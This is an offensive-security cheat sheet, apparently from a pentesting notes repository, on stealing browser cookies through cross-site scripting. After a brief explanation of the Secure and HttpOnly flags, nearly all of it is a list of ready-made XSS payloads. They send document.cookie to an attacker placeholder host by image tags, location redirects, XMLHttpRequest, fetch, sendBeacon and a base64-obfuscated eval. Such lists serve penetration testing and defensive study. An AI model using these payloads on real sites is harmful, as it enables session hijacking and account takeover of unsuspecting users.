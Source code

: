 # Cookie-Based Privilege Escalation

We can leverage XSS to steal cookies and session information

**Relevant flags:**

- **Secure** - Instructs the browser to only send the cookie over encrypted connections (HTTPS)
- **HttpOnly** - Denies JavaScript access to the cookie

If **HttpOnly** is not set, we can leverage XSS to steal a cookie (although there are potential bypasses linked below)

### Examples

```js
// Using image tag on error event
<img src=x onerror=this.src="http://<OUR_IP>/?c="+document.cookie>
<img src=x onerror="location.href='http://<OUR_IP>/?c='+ document.cookie">

// Using image and audio objects
<script>new Image().src="http://<OUR_IP>/?c="+encodeURI(document.cookie);</script>
<script>new Audio().src="http://<OUR_IP>/?c="+escape(document.cookie);</script>
<script>var i=new Image();i.src="http://<OUR_IP>/?c="+document.cookie</script>

// Using document location manipulation
<script>location.href = 'http://<OUR_IP>/?c='+document.cookie</script>
<script>location = 'http://<OUR_IP>/?c='+document.cookie</script>
<script>document.location = 'http://<OUR_IP>/?c='+document.cookie</script>
<script>document.location.href = 'http://<OUR_IP>/?c='+document.cookie</script>
<script>window.location.assign('http://<OUR_IP>/?c='+document.cookie)</script>
<script>window['location']['assign']('http://<OUR_IP>/?c='+document.cookie)</script>
<script>window['location']['href']('http://<OUR_IP>/?c='+document.cookie)</script>
<script>document.location=["http://<OUR_IP>?c",document.cookie].join()</script>
<script>window.location="https://<OUR_IP>/?c=".concat(document.cookie)</script>

// Using document.write
<script>document.write('<img src="http://<OUR_IP>?c='+document.cookie+'" />')</script>

// Using XMLHttpRequest
<script>var xhttp=new XMLHttpRequest();xhttp.open("GET", "http://<OUR_IP>/?c="%2Bdocument.cookie, true);xhttp.send();</script>

// Using eval() to decode and execute base64 encoded script
<script>eval(atob('ZG9jdW1lbnQud3JpdGUoIjxpbWcgc3JjPSdodHRwczovLzxPVVJfSVA+P2M9IisgZG9jdW1lbnQuY29va2llICsiJyAvPiIp'));</script>
// The base64 encoded payload: document.write("<img src='https://<OUR_IP>?c="+ document.cookie +"' />")

// Using fetch API
<script>fetch('https://<OUR_SUBDOMAIN>.burpcollaborator.net', {method: 'POST', mode: 'no-cors', body:document.cookie});</script>

// Using beacon API
<script>navigator.sendBeacon('https://ssrftest.com/x/AAAAA',document.cookie)</script>
```

See [HackTricks](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting#xss-common-payloads) for additional techniques and bypasses
